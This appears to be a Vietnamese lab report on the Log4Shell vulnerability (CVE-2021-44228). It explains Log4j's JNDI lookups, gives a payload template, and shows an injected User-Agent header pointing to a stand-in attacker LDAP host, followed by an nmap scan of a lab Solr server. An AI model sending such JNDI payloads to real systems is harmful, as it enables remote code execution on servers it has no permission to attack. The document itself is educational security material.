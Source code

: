 # REPORT log4j (CVE-2021-44228)
- Mức độ nghiêm trọng: đạt 10/10 *(trong hệ thống đánh giá CVSS)*
- Khai thác lỗ hổng không yêu cầu xác thực, cho phép thực thi mã từ xa (RCE) trên bất kỳ ứng dụng nào sử dụng tiện ích **log4j**
## Table of Content
1. [Log4jShell](#Log4jShell)
2. [LDAP và JNDI là gì?](#LDAP-và-JNDI-là-gì?)
3. [LDAP và JNDI](#LDAP-và-JNDI)
4. [Log4j JNDI lookup](#Log4j-JNDI-Lookup)
6. [Kịch bản khai thác Log4j](Kịch-bản-khai-thác-Log4j)
7. [Exploit]
8. [Biện pháp phòng ngừa](#Biện-pháp-phòng-ngừa)
8. Exploiting Log4j (CVE-2021-44228)
9. Mitigation

### Log4jShell
Tính năng của JNDI trong Apache Log4j2 phiên bản 2.0-beta9 đến 2.12.1 và 2.13.0 đến 2.15.0 được sử dụng cho việc cấu hình (configuration), thông báo nhật ký (log messages) *(bao gồm cả các tham số liên quan)* không chống lại các LDAP và JNDI endpoint liên quan khác mà attacker đang có quyền kiểm soát. Vì thế nên, một khi attacker có thể kiểm soát các log messages hoặc các tham số của log messages thì có thể thực thi được mã code tùy ý được load từ LDAP server khi mà message lookup substitution được kích hoạt. 
- Loại lỗ hổng: Remote Code Execution
- Mức độ: Critical
- Base CVSS Score: 10.0
- Phiên bản bị ảnh hưởng: All versions from 2.0-beta9 to 2.14.1
#### Log4j là gì?
Apache Log4j hay thường gọi là Log4j *(một thành phần của Apache Logging Services)* là một trình ghi log *(thư viện/framework)* được viết bằng ngôn ngữ Java. 

Framework Apache Log4j đang được sử dụng bởi hơn 5 TRIỆU ứng dụng mã nguồn mở trên toàn cầu, con số này còn có thể lớn hơn gấp nhiều lần đối với các ứng dụng không công bố mã nguồn. Đây là phần mềm mã nguồn mở được duy trì bởi một nhóm lập trình viên tình nguyện của dự án phi lợi nhuận từ Apache Software Foundation.
### LDAP và JNDI là gì?
**LDAP (Lightweight Directory Access Protocol)** là một giao thức mở và đa nền tảng được sử dụng để xác thực dịch vụ thư mục (directory service authentication). Nó cung cấp ngôn ngữ giao tiếp mà ứng dụng sử dụng để giao tiếp với các dịch vụ thư mục khác. Các dịch vụ thư mục lưu trữ nhiều thông tin quan trọng như user account details, passwords, computer accounts,... được chia sẻ với các thiết bị khác trên mạng.

**JNDI (Java Naming and Directory Interface)** là một giao diện lập trình ứng dụng (API) cung cấp chức năng đặt tên (naming) và thư mục (directoty) cho các ứng dụng được viết bằng Ngôn ngữ lập trình Java.

![ldap&jndi1](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/1.png)

### LDAP và JNDI
JNDI cung cấp một API tiêu chuẩn để tương tác với các dịch vụ tên và thư mục *(name/directory services)* bằng cách sử dụng giao diện cung cấp dịch vụ (service provider interface-SPI). JNDI cung cấp cho các ứng dụng và đối tượng Java với giao diện mạnh mẽ và minh bạch để truy cập các dịch vụ thư mục như LDAP. Bảng dưới đây cho thấy các hoạt động tương đương LDAP và JNDI phổ biến.

![ldap&jndi](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/2.png)

### Log4j JNDI Lookup
Lookups là một cơ chế thêm giá trị vào cấu hình log4j ở những vị trí tùy ý. Log4j có khả năng thực hiện nhiều lookups như **map, system properties và JNDI (Java Naming and Directory Interface) lookups**.

Log4j sử dụng API JNDI để nhận các dịch vụ naming và directory (naming and directory services) từ một số providers sẵn như : **LDAP, COS (Common Object Services), Java RMI registry (Remote Method Invocation), DNS (Domain Name Service),...** 

Nếu chức năng này được thực thi, thì chúng ta có thể đặt dòng mã này ở BẤT KỲ đâu đó trong chương trình: **${jndi:logging/context-name}**

### Kịch bản khai thác Log4j

#### Kịch bản Log4j bình thường

![normal Lo4j scenario](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/3.png)

1. HTTP request được gửi tới server
2. Log4j log lại HTTP request vừa được gửi

#### Kịch bản khai thác Log4j

![exploit Log4j](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/4.png)

Khi attacker kiểm soát được log messages thì có thể dẫn tới việc thực thi được mã tùy ý trên những server mục tiêu. Những mã này được load từ LDAP server mỗi khi message lookup substitution được bật. Từ đó, payload sẽ được tải và thực thi trên máy nạn nhân. 

Ví dụ về cách thức kết hợp JNDI và LDAP để khai thác: 
```console
${jndi:ldap://<host>:<port>/<payload>}
```
1. Attacker chèn JNDI lookup vào header field (vị trí có khả năng được log lại)
> User-Agent: ${jndi:ldap://anonymous.com:1389/xxx}
2. Chuỗi được chuyển tới log4j để log.
> ${jndi:ldap://ldap://anonymous.com:1389/xxx}
3. Log4j nội suy chuỗi và truy vấn máy chủ LDAP độc hại.
4. LDAP server phản hồi bằng thông tin directory có chứa Java Class độc hại.
5. Java deserialize (hoặc tải xuống) Java Class độc hại và thực thi nó.

### Exploit 
Trạng thái không sử dụng thiết bị IPS/IDS
![noIPSIDS](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/log4jlab.drawio.png)

#### Enumeration
Dùng **nmap** để scan port trên target
```console
nmap -sS -sV -sC -Pn -T4 -v -p- 192.168.2.44 -o re_nmap.txt
```
Kết quả
![nmap](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/nmap1.PNG)

Trong số các port đang mở, ta tập trung vào port 8389 đang chạy dịch vụ Apache Solr.
Apache Solr là một nền tảng tìm kiếm và phân tích dữ liệu mã nguồn mở, được xây dựng trên cơ sở của Apache Lucene. Nó cung cấp các tính năng mạnh mẽ cho việc lập chỉ mục và tìm kiếm dữ liệu từ nhiều nguồn khác nhau, từ văn bản đến hình ảnh và tài liệu phức tạp.

Solr sử dụng cổng 8983 làm cổng mặc định cho giao tiếp.
![defaultport](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/defaultport.PNG)

Log4Shell (CVE-2021-44228) liên quan đến lỗ hổng bảo mật trong thư viện Log4j, không phải trực tiếp đối với Apache Solr. Tuy nhiên, Apache Solr có thể sử dụng Log4j trong một số trường hợp, ví dụ như để ghi nhật ký (logging). Do đó, nếu Solr sử dụng Log4j và sử dụng các tính năng bị ảnh hưởng, thì nó có thể tiềm ẩn rủi ro bảo mật.

Mục tiêu cần tìm ra những entry point có tiềm năng (log lại dữ liệu sau khi người dùng thực hiện truy vấn tại những entry point này)






### Biện pháp phòng ngừa

Áp dụng thiết bị IPS/IDS 
